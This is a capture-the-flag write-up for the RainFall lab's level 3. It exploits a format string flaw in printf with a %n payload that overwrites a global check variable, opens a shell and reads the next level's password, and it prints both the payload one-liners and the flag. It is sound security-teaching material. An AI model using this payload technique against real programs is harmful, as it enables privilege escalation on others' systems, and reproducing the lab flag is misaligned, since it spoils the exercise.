 # Level 3

As usual, there is a binary which we decompiled [here](./level3_decomp.c).

The `return system("/bin/sh")` jumps to our eyes, it requires to pass a check, `m` must be equal to `64`. Easy, right?

We don't have a big impact on aything except the printf located later which prints our buffer. Good news for us, that's all we need.

## Exploit

We will need to change the value of `m` to pass our check and open a shell, so first thing first, we need to find its address:

```bash
level3@RainFall:~$ objdump -t level3 | grep m
level3:     file format elf32-i386
080481b8 l    d  .dynsym        00000000              .dynsym
08048618 l    d  .eh_frame_hdr  00000000              .eh_frame_hdr
08048654 l    d  .eh_frame      00000000              .eh_frame
0804974c l    d  .dynamic       00000000              .dynamic
00000000 l    d  .comment       00000000              .comment
08049884 l     O .bss   00000001              completed.6159
08048480 l     F .text  00000000              frame_dummy
08048734 l     O .eh_frame      00000000              __FRAME_END__
0804974c l     O .dynamic       00000000              _DYNAMIC
00000000       F *UND*  00000000              system@@GLIBC_2.0
00000000  w      *UND*  00000000              __gmon_start__
00000000       F *UND*  00000000              __libc_start_main@@GLIBC_2.0
0804988c g     O .bss   00000004              m
0804851a g     F .text  0000000d              main
level3@RainFall:~$
```

So we know the adress of m: `0804988c`.

Now the fact that `printf(buff)` is used makes it vulnerable compared to `printf("%s\n", buff)`. Which means our string will be replaced like well, inside a printf!

For example: 

```bash
level3@RainFall:~$ ./level3
aaaa %x %x %x %x
aaaa 200 b7fd1ac0 b7ff37d0 61616161
```

It prints our string, then the address of ENV, some more addresses for locals and finally, our string.

And now, we can use something clever, we can input the adress of `m` as the first parameters, then use `%x` to pop the element of the stack until we arrive at the address of `m`, and write what we want!
`%n` is used to write the bytes we wrote with printf, to the last address pushed onto the stack so m, it will write 49 + the previous bytes = 64 to `m`:

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%x%x%49u%n"' > /var/crash/write
level3@RainFall:~$ cat /var/crash/write - | ./level3
��200b7fd1ac0                                       3086956496
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```


## Aurel

```bash
python2 -c 'print "\x8c\x98\x04\x08" + "%x "*3 + "a"*38 + "%n"' > /var/crash/write
```

b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

